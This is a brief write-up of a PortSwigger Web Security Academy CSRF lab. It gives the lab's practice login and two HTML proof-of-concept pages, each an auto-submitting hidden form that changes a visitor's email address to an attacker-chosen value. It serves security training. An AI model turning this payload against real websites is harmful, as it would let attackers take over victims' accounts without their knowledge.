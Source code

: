# CSRF vulnerability with no defenses

## This lab's email change functionality is vulnerable to CSRF.

## To solve the lab, craft some HTML that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address and upload it to your exploit server.

## You can log in to your own account using the following credentials: `wiener:peter`

### HINT:

```html
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

### step 1 inspect email content

copy` /my-account/change-email` from inspect element and cahnge to form

### step2

go to expolit and submit

```html
<html>
  <body>
    <form
      action="https://0a73006e0385ae5f800e3f6700e90031.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
